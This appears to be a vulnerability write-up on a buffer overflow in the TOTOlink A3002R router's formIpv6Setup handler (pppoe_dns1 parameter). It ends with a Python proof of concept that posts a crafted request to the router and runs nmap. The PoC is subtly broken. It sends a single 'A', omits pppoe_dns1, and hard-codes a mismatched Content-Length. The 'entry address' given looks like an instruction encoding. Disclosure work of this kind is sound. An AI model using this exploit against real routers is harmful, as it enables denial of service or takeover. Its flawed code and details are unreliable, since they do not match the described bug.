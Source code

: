 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `pppoe_dns1` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`
![](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/figures/Snipaste_2025-01-17_14-59-19.png)

By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v39` variable is passed to `v51` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `pppoe_dns1` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "`pppoe_dns1`" data, and `strcpy` copies the string pointed to by `v39` to `v51` without verifying whether `v51` has enough space to store the copied string. If the string pointed to by `v39` exceeds the size of the `v51` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![](https://github.com/SunnyYANGyaya/cuicuishark-sheep-fishIOT/blob/main/ToTolink/figures/Snipaste_2025-01-17_15-01-46.png)
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `pppoe_dns1` string, potentially causing the program to crash.


# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"
data = "submit-url=%2FIPv6_Setup.htm&update=&wan_enable=1&OriginType=0&enable_dhcpv6RapidCommit={}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
